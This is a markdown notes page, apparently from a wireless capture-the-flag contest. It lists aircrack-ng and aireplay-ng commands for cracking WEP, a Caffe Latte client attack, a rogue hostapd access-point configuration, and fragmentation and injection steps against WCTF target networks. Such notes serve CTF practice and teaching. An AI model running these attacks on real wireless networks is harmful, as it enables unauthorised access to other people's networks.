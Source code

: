 ## Classic WEP

Basically run airodump for 10 minutes and aircrack

```
sudo airmon-ng

sudo airmon-ng start wlan27

sudo airodump-ng  -w derp --output-format pcap --band ag wlan27mon

wget https://raw.githubusercontent.com/rfhs/wctf-files/master/wordlist/cyberpunk.words

sudo aircrack-ng -w cyberpunk.words derp0-01.cap
```

## Caffe Latte (WEP, no AP)

How to recognize?
You might find in airodump-ng that there are probes to ESSIDs that aren't found.
This signals a client-side attack


Begin the Caffe Latte Attack by starting an airodump-ng capture and writing the keystream to an output file:
It helps to know the channel, which is more of an art and needs tweaking by playing with airodump to find what the target is looking for.

```
airodump-ng -w cafefile --output-format pcap --band a -c 44 wlan29mon
```

While an airodump-ng capture is running, perform the Caffe-Latte Attack:

to specify the channel, the interface needs to be brought up in airodump with channel specified.

```
aireplay-ng --caffe-latte -h 02:00:00:00:1E:00 -b 00:13:10:30:24:9C -D wlan30mon

    -h is our card MAC address
    -b is the Access Point MAC (any valid MAC should work)
    -D disables AP detection.
```

find our own mac with `iw dev`

^ This didn't work for me at DefCon 2020

According to another member used hostapd instead of aireplay

```
interface=wlan31mon
ssid=WCTF_03
channel=44
hw_mode=a
#mana_wpaout=hostapd.hccapx
wep_default_key=1
wep_key1="abcde"
wep_key_len_broadcast="5"
wep_key_len_unicast="5"
wep_rekey_period=300
auth_algs=3
```

put that into my_ha.conf

hostapd my_ha.conf starts the beacon and the original airodump will capture enough IVs for aircrack



## Client-less WEP

Attempts at "chochop/fragmentation"

```
aireplay-ng -1 0 -e WCTF_02 -a 00:DC:63:ED:5D:00 -h 02:00:00:00:1e:00 wlan30mon

aireplay-ng -5 -b 00:DC:63:ED:5D:00 -h 02:00:00:00:1e:00 wlan30mon

aireplay-ng -4 -b 00:DC:63:ED:5D:00 -h 02:00:00:00:1e:00 wlan30mon

aireplay-ng -2 -p 0841 -c FF:FF:FF:FF:FF:FF -b 00:DC:63:ED:5D:00 -h 02:00:00:00:1e:00 wlan30mon

aireplay-ng -1 1000 -o 1 -q 10 -e WCTF_02 -a 00:DC:63:ED:5D:00 -h 02:00:00:00:1e:00 wlan30mon
```